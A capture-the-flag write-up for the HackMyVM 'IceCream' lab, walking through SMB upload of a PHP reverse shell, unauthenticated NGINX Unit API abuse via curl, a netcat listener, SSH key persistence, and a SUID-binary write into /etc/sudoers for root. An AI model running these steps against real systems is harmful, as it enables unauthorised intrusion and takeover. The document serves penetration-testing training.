


# HackMyVM: IceCream

**Author:** Om Chaudhari (MRWhiteCap)
**Platform:** HackMyVM

**Difficulty:** Easy/Medium
**Skills:** SMB enumeration, unauthenticated API abuse (NGINX Unit), reverse shell deployment, SSH key persistence, SUID binary abuse for privilege escalation

---

## 🔍 Nmap Scan

```
# Nmap 7.94SVN scan initiated Wed Oct  9 14:42:02 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN nmap.txt 192.168.0.105
Nmap scan report for 192.168.0.105
Host is up (0.00019s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 68:94:ca:2f:f7:62:45:56:a4:67:84:59:1b:fe:e9:bc (ECDSA)
|_  256 3b:79:1a:21:81:af:75:c2:c1:2e:4e:f5:a3:9c:c9:e3 (ED25519)
80/tcp   open  http        nginx 1.22.1
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.22.1
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
9000/tcp open  cslistener?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 1s
| smb2-time: 
|   date: 2024-10-09T18:42:16
|_  start_date: N/A
|_nbstat: NetBIOS name: ICECREAM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

# Nmap done at Wed Oct  9 14:42:14 2024 -- 1 IP address (1 host up) scanned in 12.00 seconds
```

Key takeaways from the scan:
- **Port 22** – SSH (OpenSSH 9.2p1)
- **Port 80** – nginx, returning a 403 Forbidden
- **Port 139/445** – SMB (Samba 4.6.2)
- **Port 9000** – Unusual/unrecognized service, later identified as **NGINX Unit** (`Server: Unit/1.33.0`) via HTTP fingerprinting, exposing a JSON config API with support for PHP, Python, Perl, Ruby, Java, and WASM modules.

---

## 📂 SMB Enumeration

Enumerating SMB revealed several available shares.

- We connect to the share named `icecream` upload a reverse shell payload to it.
```bash
  smbclient //machine-ip/icecream
```

- Upload a reverse shell payload to it.
```bash
  smb: \> put rev.php
```



---

## 🐚 Initial Foothold via NGINX Unit (Port 9000)

Port 9000 exposes the NGINX Unit control API, which allows configuring applications, routes, and listeners via simple `curl` requests — without authentication.

**Step 1 — Upload the reverse shell** to the SMB share (or `/tmp`) on the target.

**Step 2 — Register a PHP application** pointing to the uploaded shell:
```bash
curl -X PUT -d '{"app":{"type":"php","root":"/tmp","script":"rev.php"}}' http://192.168.0.105:9000/config/applications
```

**Step 3 — Configure a route** to serve the PHP file:
```bash
curl -X PUT -d '[{"action":{"share":"/tmp/rev.php$uri","fallback":{"pass":"applications/app"}}}]' http://192.168.0.105:9000/config/routes
```

**Step 4 — Configure a listener** on a chosen port:
```bash
curl -X PUT -d '{"*:8888":{"pass":"routes"}}' http://192.168.0.105:9000/config/listeners
```

**Step 5 — Catch the shell:**
1. Start a Netcat listener: `nc -lvnp 4444`
2. Trigger the payload by browsing to `http://192.168.0.105:8888/rev.php`

This grants a shell as the user **`ice`**.

---

## 🔑 Obtaining Stable SSH Access

1. Generate an SSH key pair on the target: `ssh-keygen`
2. Append the generated public key (`id_rsa.pub`) to `~/.ssh/authorized_keys`
3. Transfer the corresponding private key (`id_rsa`) back to the attacking host
4. SSH into the target using the private key for a stable shell

---

## ⬆️ Privilege Escalation

**Step 1 — Enumerate SUID binaries:**
```bash
find / -perm -4000 2>/dev/null
```

This reveals `/usr/sbin/ums2net`, a custom SUID binary related to network communication management.

**Step 2 — Abuse `ums2net`:**
By analyzing how `ums2net` writes port input to a file, it's possible to leverage this write primitive to modify `/etc/sudoers`.

Craft a malicious sudoers entry:
```
ice ALL=(ALL) NOPASSWD: ALL
```

Package this into a configuration file (`a.conf`) and use `ums2net`'s write capability to push it into the sudoers configuration on the target.

**Step 3 — Escalate:**
```bash
sudo bash
```

This drops into a **root shell**.

---

## ✅ Summary

| Stage | Technique |
|---|---|
| Recon | Nmap scan revealed SMB + an exposed NGINX Unit API on port 9000 |
| Foothold | Unauthenticated NGINX Unit API abused to deploy and execute a PHP reverse shell |
| Access | SSH key persistence for a stable foothold |
| PrivEsc | Custom SUID binary (`ums2net`) abused to write a malicious `sudoers` file |
| Result | Root shell obtained 🎉 |

---

> 📖 **Original Medium Article:**
> https://medium.com/@mrwhitecap/hackmyvm-icecream-e94c089248be
